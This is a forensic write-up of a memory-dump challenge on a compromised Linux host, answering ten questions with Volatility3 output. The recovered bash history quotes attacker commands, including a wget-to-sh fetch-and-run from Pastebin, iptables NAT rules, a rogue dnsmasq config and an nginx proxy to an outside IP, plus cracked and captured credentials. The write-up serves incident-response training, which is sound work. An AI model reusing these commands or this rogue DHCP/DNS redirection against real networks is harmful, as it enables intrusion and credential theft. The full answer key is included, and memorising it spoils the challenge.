




# The Tunnel Without Walls

## Scenario

> *A memory dump from a connected Linux machine reveals covert network connections, fake services, and unusual redirects. Holmes investigates further to uncover how the attacker is manipulating the entire network!*

Challenge files [here](https://www.dropbox.com/scl/fi/oc8zinfoiib22t99y296f/The_Tunnel_Without_Walls.zip?rlkey=7wmvvhr5523lve1irwy2j2pon&st=aqzbfzd6&dl=0).

## Questions
To solve this challenge, you'll need to answer the following 10 questions:

1. What is the Linux kernel version of the provided image? (`string`)
2. The attacker connected over SSH and executed initial reconnaissance commands. What is the PID of the shell they used? (`number`)
3. After the initial information gathering, the attacker authenticated as a different user to escalate privileges. Identify and submit that user's credentials. (`user:password`)
4. The attacker downloaded and executed code from Pastebin to install a rootkit. What is the full path of the malicious file? (`/path/filename.ext`)
5. What is the email account of the alleged author of the malicious file? (`user@example.com`)
6. The next step in the attack involved issuing commands to modify the network settings 8. and installing a new package. What is the name and PID of the package? (`package name,PID`)
7. Clearly, the attacker's goal is to impersonate the entire network. One workstation was already tricked and got its new malicious network configuration. What is the workstation's hostname?
8. After receiving the new malicious network configuration, the user accessed the City of CogWork-1 internal portal from this workstation. What is their username? (`string`)
9. Finally, the user updated a software to the latest version, as suggested on the internal portal, and fell victim to a supply chain attack. From which Web endpoint was the update downloaded?
10. To perform this attack, the attacker redirected the original update domain to a malicious one. Identify the original domain and the final redirect IP address and port. (`domain,IP:port`)

## Tools

### Volatility3 setup

Go-to tool for analysing a memory dump.

::github{repo="volatilityfoundation/volatility3"}

:::note[A HEADS-UP]
I am using Volatility 3 Framework 2.25.0 at the time of cooking this writeup, some commands could be different than what I demonstrated here.
:::

After installing volatility3, the very first command is to run `banners.Banners` on the given memory dump.



So its a Linux memory dump. Depends on your volatility3 version, you might have to download a Linux profile, in that case you could find that profile here (follow the `banners` output):

::github{repo="Abyss-W4tcher/volatility3-symbols"}


### Other tools

Another useful tool is Bulk Extractor which helps you carve out files, json objects, emails and even network traffic.


::github{repo="simsong/bulk_extractor"}


## Investigation

### Question 1

> What is the Linux kernel version of the provided image? (string)

You should see this information after running `banners.Banners`.

**Answer:** `5.10.0-35-amd64`

### Question 2

> The attacker connected over SSH and executed initial reconnaissance commands. What is the PID of the shell they used? (number)

From the question we can infer that we should look for a **bash** process that is spawned by a **ssh** process. For process relationship information you could run `linux.pstree.PsTree`.


```bash showLineNumbers=false
python3 /path/to/volatility3/vol.py -f memdump.mem linux.pstree.PsTree
```

```log {22} title="linux.pstree.PsTree"
Volatility 3 Framework 2.25.0

OFFSET (V)	PID	TID	PPID	COMM

0x9b33801eb000	1	1	0	systemd
* 0x9b338844c800	232	232	1	systemd-journal
* 0x9b33900f6000	254	254	1	systemd-udevd
* 0x9b339020e000	289	289	1	systemd-timesyn
* 0x9b3383729800	295	295	1	VGAuthService
* 0x9b3383728000	296	296	1	vmtoolsd
* 0x9b33837a6000	350	350	1	cron
* 0x9b338372b000	351	351	1	dbus-daemon
* 0x9b3388449800	354	354	1	rsyslogd
* 0x9b33837d0000	355	355	1	systemd-logind
* 0x9b3386eec800	558	558	1	agetty
* 0x9b3386ee8000	559	559	1	containerd
* 0x9b3386ee9800	560	560	1	sshd
** 0x9b3383224800	13585	13585	560	sshd
*** 0x9b3383370000	13607	13607	13585	sshd
**** 0x9b338337e000	13608	13608	13607	bash
***** 0x9b33900a4800	20703	20703	13608	su
****** 0x9b3382a5b000	22714	22714	20703	bash
** 0x9b3281326000	63454	63454	560	sshd
*** 0x9b329251e000	63460	63460	63454	sshd
**** 0x9b32924a6000	63461	63461	63460	bash
***** 0x9b3390208000	63483	63483	63461	sudo
****** 0x9b3383044800	63500	63500	63483	insmod
* 0x9b3386eeb000	569	569	1	dockerd
* 0x9b3391663000	905	905	1	containerd-shim
** 0x9b338292e000	1095	1095	905	synapse_sequenc
[...]
```

**Answer:** `13608`

### Question 3
> After the initial information gathering, the attacker authenticated as a different user to escalate privileges. Identify and submit that user's credentials. (user:password)

First we gotta identify the authenticated user, checking `linux.bash.Bash` output show that the attacker ran `su jm`:

```log {13} wrap=false title="linux.bash.Bash"
Volatility 3 Framework 2.25.0

PID	Process	CommandTime	Command

13608	bash	2025-09-03 08:16:48.000000 UTC	id
13608	bash	2025-09-03 08:16:52.000000 UTC	 
13608	bash	2025-09-03 08:16:52.000000 UTC	cat /etc/os-release 
13608	bash	2025-09-03 08:16:58.000000 UTC	uname -a
13608	bash	2025-09-03 08:17:02.000000 UTC	ip a
13608	bash	2025-09-03 08:17:04.000000 UTC	0
13608	bash	2025-09-03 08:17:04.000000 UTC	ps aux
13608	bash	2025-09-03 08:17:25.000000 UTC	docker run -v /etc/:/mnt -it alpine
13608	bash	2025-09-03 08:18:11.000000 UTC	su jm
22714	bash	2025-09-03 08:18:15.000000 UTC	poweroff
22714	bash	2025-09-03 08:18:31.000000 UTC	id
22714	bash	2025-09-03 08:18:40.000000 UTC	wget -q -O- https://pastebin.com/raw/hPEBtinX|sh
22714	bash	2025-09-03 08:19:48.000000 UTC	nano /etc/sysctl.conf 
22714	bash	2025-09-03 08:20:04.000000 UTC	sysctl --system
22714	bash	2025-09-03 08:20:15.000000 UTC	iptables -A FORWARD -i ens224 -o ens192 -j ACCEPT
22714	bash	2025-09-03 08:20:15.000000 UTC	iptables -A FORWARD -i ens192 -o ens224 -m state --state ESTABLISHED,RELATED -j ACCEPT
22714	bash	2025-09-03 08:20:16.000000 UTC	iptables -t nat -A POSTROUTING -s 192.168.211.0/24 -o ens192 -j MASQUERADE
22714	bash	2025-09-03 08:20:31.000000 UTC	apt install -y dnsmasq
22714	bash	2025-09-03 08:20:50.000000 UTC	rm /etc/dnsmasq.conf 
22714	bash	2025-09-03 08:20:56.000000 UTC	nano /etc/dnsmasq.conf
22714	bash	2025-09-03 08:21:23.000000 UTC	systemctl enable --now dnsmasq 
22714	bash	2025-09-03 08:21:30.000000 UTC	systemctl restart dnsmasq
22714	bash	2025-09-03 08:21:38.000000 UTC	cd /tmp/
22714	bash	2025-09-03 08:21:42.000000 UTC	nano default.conf
22714	bash	2025-09-03 08:22:03.000000 UTC	docker run -d --name jm_proxy --network host -v $(pwd)/default.conf:/etc/nginx/conf.d/default.conf:ro nginx:alpine
22714	bash	2025-09-03 08:22:17.000000 UTC	rm default.conf 
22714	bash	2025-09-03 08:22:17.000000 UTC	/home/werni
63461	bash	2025-09-03 08:26:26.000000 UTC	p멺
63461	bash	2025-09-03 08:26:26.000000 UTC	sudo insmod /lime-5.10.0-35-amd64.ko "path=/tmp/memdump.mem format=lime"
```

Next we find **jm**'s password, on Linux users' password hash is stored in `/etc/passwd`, using `linux.pagecache.Files` we can locate the file's inode address `0x9b33ac0378c0`. To dump the file use `linux.pagecache.InodePages` like so:

```bash showLineNumbers=false
python3 /path/to/volatility3/vol.py -f memdump.mem linux.pagecache.InodePages  --inode 0x9b33ac0378c0 --dump
```

```log {27}
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
werni:x:1000:1000:werni,,,:/home/werni:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
jm:$1$jm$poAH2RyJp8ZllyUvIkxxd0:0:0:root:/root:/bin/bash
dnsmasq:x:106:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
```

You can crack this **md5crypt** password using **JohnTheRipper** or **Hashcat**:

::github{repo="openwall/john"}

::github{repo="hashcat/hashcat"}

along with this universal wordlist:

::github{repo="zacheller/rockyou"}

**Answer:** `jm:WATSON0`

### Question 4
> The attacker downloaded and executed code from Pastebin to install a rootkit. What is the full path of the malicious file? (/path/filename.ext)

The mentioned command:
```log startLineNumber=16 title="linux.bash.Bash"
22714  bash  2025-09-03 08:18:40.000000 UTC  wget -q -O- https://pastebin.com/raw/hPEBtinX|sh
```

In Linux, some kernel rootkits are implemented as loadable kernel modules that unlink themselves from the kernel's module list to avoid detection. So plugins like `linux.lsmod` may not show them. However `linux.hidden_modules` plugin looks for inconsistencies which are memory-resident module structures or executable sections that aren't referenced by the official list.

```bash showLineNumbers=false
python3 /path/to/volatility3/vol.py -f memdump.mem linux.hidden_modules.Hidden_modules
```

```log title="linux.hidden_modules.Hidden_modules"
Volatility 3 Framework 2.25.0

Offset	Module Name	Code Size	Taints	Load Arguments	File Output

0xffffc0aa0040	Nullincrevenge	0x4000	OOT_MODULE,UNSIGNED_MODULE		N/A

```

Find **"Nullincrevenge"** in `linux.pagecache.Files` gives us its full path and its inode address `0x9b3386454a80`.

**Anwser:** `/usr/lib/modules/5.10.0-35-amd64/kernel/lib/Nullincrevenge.ko`

### Question 5

> What is the email account of the alleged author of the malicious file? (user@example.com)

Extract the rootkit:

```bash showLineNumbers=false
python3 /path/to/volatility3/vol.py -f memdump.mem linux.pagecache.InodePages  --inode 0x9b3386454a80 --dump
```

Then runs `modinfo` on it:



**Answer:** `i-am-the@network.now`

### Question 6

> The next step in the attack involved issuing commands to modify the network settings 8. and installing a new package. What is the name and PID of the package? (package name,PID)

Let's revisit linux.bash:

```log "dnsmasq" startLineNumber=18 title="linux.bash.Bash"
22714	bash	2025-09-03 08:20:04.000000 UTC	sysctl --system
22714	bash	2025-09-03 08:20:15.000000 UTC	iptables -A FORWARD -i ens224 -o ens192 -j ACCEPT
22714	bash	2025-09-03 08:20:15.000000 UTC	iptables -A FORWARD -i ens192 -o ens224 -m state --state ESTABLISHED,RELATED -j ACCEPT
22714	bash	2025-09-03 08:20:16.000000 UTC	iptables -t nat -A POSTROUTING -s 192.168.211.0/24 -o ens192 -j MASQUERADE
22714	bash	2025-09-03 08:20:31.000000 UTC	apt install -y dnsmasq
22714	bash	2025-09-03 08:20:50.000000 UTC	rm /etc/dnsmasq.conf 
22714	bash	2025-09-03 08:20:56.000000 UTC	nano /etc/dnsmasq.conf
22714	bash	2025-09-03 08:21:23.000000 UTC	systemctl enable --now dnsmasq 
22714	bash	2025-09-03 08:21:30.000000 UTC	systemctl restart dnsmasq
22714	bash	2025-09-03 08:21:38.000000 UTC	cd /tmp/
22714	bash	2025-09-03 08:21:42.000000 UTC	nano default.conf
22714	bash	2025-09-03 08:22:03.000000 UTC	docker run -d --name jm_proxy --network host -v $(pwd)/default.conf:/etc/nginx/conf.d/default.conf:ro nginx:alpine
```
The attacker installed **dnsmasq** and started its service, enable him to host a DNS and DHCP server on the victim machine, potentially luring more victims in the network. Cross-referencing **dnsmasq** in `linux.pstree` gives its PID.

```log startLineNumber=50 title="linux.pstree.PsTree"
* 0x9b32812d6000	38687	38687	1	dnsmasq
```

**Answer:** `dnsmasq,38687`


### Question 7

> Clearly, the attacker's goal is to impersonate the entire network. One workstation was already tricked and got its new malicious network configuration. What is the workstation's hostname?

So a workstation connected to the attacker's netwok, somehow...

According to https://wiki.archlinux.org/title/Dnsmasq, **dnsmasq** records leases to `/var/lib/misc/dnsmasq.leases`, extract that file at Inode address `0x9b33ac25b8c0` reveals its content:

```shell title="dnsmasq.leases" showLineNumbers=false
1756891471 00:50:56:b4:32:cd 192.168.211.52 Parallax-5-WS-3 01:00:50:56:b4:32:cd
```


**Answer:** `Parallax-5-WS-3`

### Question 8

> After receiving the new malicious network configuration, the user accessed the City of CogWork-1 internal portal from this workstation. What is their username? (string)

The victim sent a login request to an internal portal. To know where the request went we inspect `/etc/dnsmasq.conf` for dnsmasq configurations, extract the file at address `0x9b33ac25aae0`:

```bash title="dnsmasq.conf"
interface=ens224

dhcp-range=192.168.211.30,192.168.211.240,1h
dhcp-option=3,192.168.211.8
dhcp-option=6,192.168.211.8

no-hosts
no-resolv
server=8.8.8.8
address=/updates.cogwork-1.net/192.168.211.8

log-queries=no
quiet-dhcp
quiet-dhcp6
log-facility=/dev/null
```

:::note[dnsmasq configs]
* Clients on ens224 (NIC) get IPs in **192.168.211.0/24**, use **192.168.211.8** as both gateway and DNS.
* Any lookup for `updates.cogwork-1.net` is forced to **192.168.211.8**. 
* Everything else resolves upstream at 8.8.8.8 (Google's DNS).
* Logs are disabled.
:::

The City of CogWork-1 portal was not a poisoned hostname. The victim's request was forwarded normally via NAT (set up by `iptables` commands). The attacker's Nginx reverse proxy was not involved which means we cannot find the login request in Nginx access logs. 

So where to find the login packet? It is in the memory dump somewhere. You could **strings grep** for HTTP request or better, you could use **Bulk Extractor** on the memory dump.

```shell
bulk_extractor memdump.mem -o bulk_out
```


Recovered network traffic is stored in `packets.pcap`, use [Wireshark](https://www.wireshark.org) to open it. You should filter for `frame contains "POST"` since login request are POST requests.



Full request:

```txt "mike.sullivan" showLineNumbers=false wrap=false
POST /index.php HTTP/1.1
Host: 10.129.232.25:8081
Connection: keep-alive
Content-Length: 43
Cache-Control: max-age=0
Origin: http://10.129.232.25:8081/
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36 Edg/139.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.129.232.25:8081/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=189b027ab0e5e10f496e57953544cd74

username=mike.sullivan&password=Pizzaaa1%21
```

**Answer:** `mike.sullivan`

### Question 9
> Finally, the user updated a software to the latest version, as suggested on the internal portal, and fell victim to a supply chain attack. From which Web endpoint was the update downloaded?

So this time we looked into the poisoned `updates.cogwork-1.net` domain, now this request will be logged by the Docker container's Nginx. However based on `linux.pagecache.Files` that access log is linked to /dev/stdout.

```log title="linux.pagecache.Files" showLineNumbers=false
/var/lib/docker/overlay2/c2a128b4bf3c643138f61134e7dfcf3589a5a80f016db65cac95be808a85d4fa/diff/var/log/nginx/access.log -> /dev/stdout
```

A container's stdout is recoreded at `/var/lib/docker/containers/<container-id>/<container-id>-json.log`. After extracting and digging into 10 containers I found the right container ID `d4759510b68a19bfd55ecb3675bcb3fe88ae0c4a648899ff944a34a234fef2cc`.


```jsonl wrap=false title="d4759510b68a19bfd55ecb3675bcb3fe88ae0c4a648899ff944a34a234fef2cc-json.log"
{"log":"/docker-entrypoint.sh: /docker-entrypoint.d/ is not empty, will attempt to perform configuration\n","stream":"stdout","time":"2025-09-03T08:22:11.382181855Z"}
{"log":"/docker-entrypoint.sh: Looking for shell scripts in /docker-entrypoint.d/\n","stream":"stdout","time":"2025-09-03T08:22:11.382224094Z"}
{"log":"/docker-entrypoint.sh: Launching /docker-entrypoint.d/10-listen-on-ipv6-by-default.sh\n","stream":"stdout","time":"2025-09-03T08:22:11.382230667Z"}
{"log":"10-listen-on-ipv6-by-default.sh: info: can not modify /etc/nginx/conf.d/default.conf (read-only file system?)\n","stream":"stdout","time":"2025-09-03T08:22:11.382236067Z"}
{"log":"/docker-entrypoint.sh: Sourcing /docker-entrypoint.d/15-local-resolvers.envsh\n","stream":"stdout","time":"2025-09-03T08:22:11.382241367Z"}
{"log":"/docker-entrypoint.sh: Launching /docker-entrypoint.d/20-envsubst-on-templates.sh\n","stream":"stdout","time":"2025-09-03T08:22:11.382246396Z"}
{"log":"/docker-entrypoint.sh: Launching /docker-entrypoint.d/30-tune-worker-processes.sh\n","stream":"stdout","time":"2025-09-03T08:22:11.390057117Z"}
{"log":"/docker-entrypoint.sh: Configuration complete; ready for start up\n","stream":"stdout","time":"2025-09-03T08:22:11.391743736Z"}
{"log":"2025/09/03 08:22:11 [notice] 1#1: using the \"epoll\" event method\n","stream":"stderr","time":"2025-09-03T08:22:11.400446211Z"}
{"log":"2025/09/03 08:22:11 [notice] 1#1: nginx/1.29.1\n","stream":"stderr","time":"2025-09-03T08:22:11.400462552Z"}
{"log":"2025/09/03 08:22:11 [notice] 1#1: built by gcc 14.2.0 (Alpine 14.2.0) \n","stream":"stderr","time":"2025-09-03T08:22:11.40047745Z"}
{"log":"2025/09/03 08:22:11 [notice] 1#1: OS: Linux 5.10.0-35-amd64\n","stream":"stderr","time":"2025-09-03T08:22:11.400482409Z"}
{"log":"2025/09/03 08:22:11 [notice] 1#1: getrlimit(RLIMIT_NOFILE): 1048576:1048576\n","stream":"stderr","time":"2025-09-03T08:22:11.400487058Z"}
{"log":"2025/09/03 08:22:11 [notice] 1#1: start worker processes\n","stream":"stderr","time":"2025-09-03T08:22:11.400651246Z"}
{"log":"2025/09/03 08:22:11 [notice] 1#1: start worker process 21\n","stream":"stderr","time":"2025-09-03T08:22:11.40165961Z"}
{"log":"2025/09/03 08:22:11 [notice] 1#1: start worker process 22\n","stream":"stderr","time":"2025-09-03T08:22:11.401687142Z"}
{"log":"192.168.211.52 - - [03/Sep/2025:08:25:48 +0000] \"GET /win10/update/CogSoftware/AetherDesk-v74-77.exe HTTP/1.1\" 200 12084 \"-\" \"AetherDesk/73.0 (Windows NT 10.0; Win64; x64)\" \"-\"\n","stream":"stdout","time":"2025-09-03T08:25:48.599517549Z"}
```
More about Docker forensic artifacts visit https://blog.compass-security.com/2021/11/docker-forensics.

**Answer:** `/win10/update/CogSoftware/AetherDesk-v74-77.exe`

### Question 10
> To perform this attack, the attacker redirected the original update domain to a malicious one. Identify the original domain and the final redirect IP address and port. (domain,IP:port)

To know what happened after the victim requested the poisoned domain, we gotta view the Nginx config file located at `/tmp/default.conf` (see linux.bash.Bash, the file was later removed but it doesnt matter tho). 

```log title="default.conf"
server {
    listen 80;

    location / {
        proxy_pass http://13.62.49.86:7477/;
        proxy_set_header Host jm_supply;
    }
}
```

The picture is clear, every request from the victim to **updates.cogwork-1.net** is forwarded into the attacker's box and is redirected to `http://13.62.49.86:7477/`.

**Answer:** `updates.cogwork-1.net,13.62.49.86:7477`

## Answers

1. `5.10.0-35-amd64`
2. `13608`
3. `jm:WATSON0`
4. `/usr/lib/modules/5.10.0-35-amd64/kernel/lib/Nullincrevenge.ko`
5. `i-am-the@network.now`
6. `dnsmasq,38687`
7. `Parallax-5-WS-3`
8. `mike.sullivan`
9. `/win10/update/CogSoftware/AetherDesk-v74-77.exe`
10. `updates.cogwork-1.net,13.62.49.86:7477`

## Timeline


|Time (UTC)|Description|Reference/Plugin
|--|--|--|
|2025-09-03 08:16:20|The attacker connected over SSH; executed reconnaissance.|linux.pslist, linux.bash|
|2025-09-03 08:18:11|Privilege escalation via user switch.|linux.bash|
|2025-09-03 08:18:40|A rootkit is installed for persistence.|linux.hidden_modules|
|2025-09-03 08:21:23|A rogue rogue DHCP/DNS was set up using `dnsmasq`; poisoned a domain.|linux.bash, dnsmasq.conf|
|2025-09-03 08:22:03|`jm_proxy` was deployed, redirecting the poisoned domain to a malicious upstream.|linux.bash.Bash, default.conf|
|2025-09-03 08:24:31|A worksation connected to the impersonated network.|dnsmasq.lease|
|2025-09-03 08:25:48|The victim visited the poisoned domain and `jm_proxy` redirected them to malware.|Docker Log|


## Epilogue

Doing the challenge takes alot of time but writing its writeups takes significantly more time :P. Stay-tuned for **The_Watchman's_Residue**. 
